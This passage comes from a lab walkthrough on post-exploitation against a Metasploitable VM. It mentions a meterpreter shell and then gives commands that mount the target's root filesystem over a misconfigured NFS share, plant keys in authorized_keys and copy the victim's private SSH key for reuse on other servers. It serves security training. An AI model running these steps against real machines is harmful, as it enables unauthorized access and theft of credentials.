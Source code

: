 ![](../images/automation_and_for_post_exploitation_5.png)
Now here we get a meterpreter shell to the target machine and using this we can execute commands, and all other stuffs like persistent connection, and other post-exploitation things.
#### 2. Private ssh-Key based Authentication**:
In this attack we are going to Sniff the target private key and try to gain access using them. 

**Note- With that private key we are not only able to access the target machine, but also we can access all the remote server that has trust the to target key.**

**(Note that we could also plant your own ssh public keys on the target, by adding them into the target machine's .ssh/authorized_keys file, but this technique would allow you to only access the target metasploitable machine, while the above method provide access to not only the metasploitabe machine but also the remote machine/server which trust the target private key.)**

##### Obtaining target Private keys:
For this attack to carry on and to get the private key of target, **We need to have access to the target file system along with read and write permissions**. In this case, our metasploitable machine is configure to provide **NFS(network file system) server on port 2096** that allows any devices in the network can mount the **'/' file system** of metasploitable machien along with **read and write permission** which is a very bad configuration. So by using NFS we can mount metasploitable '/' directory to our attacker machines. Here we go:
```
#for this we have the nfs-client and rpcbind service package should be insalled
#Check for what filesystem is mountable
showmount -e 192.168.1.103
#Start the rpcbind services
service rpcbind start
#choose a directory where to mount the target filesystem, I choose a new target directory in the tmp folder
mkdir /tmp/target
mount -t nfs 192.168.1.103:/ /tmp/target
#copy the target public key to its authorized_keys
cat /tmp/target/home/msfadmin/.ssh/id_rsa.pub >> /tmp/target/home/msfadmin/.ssh/authorized_keys
#we can also plant our own public key to target authorized_keys ***(alternate)***
#cp /home/kali/.ssh/id_rsa.pub /tmp/target/home/msfadmin/.ssh/autherized_keys/
#Sniff the target private key as target_id_rsa
cp /tmp/target/home/msfadmin/.ssh/id_rsa /home/kali/target_rsa_idd
#Unmount the file system
umount /tmp/target

```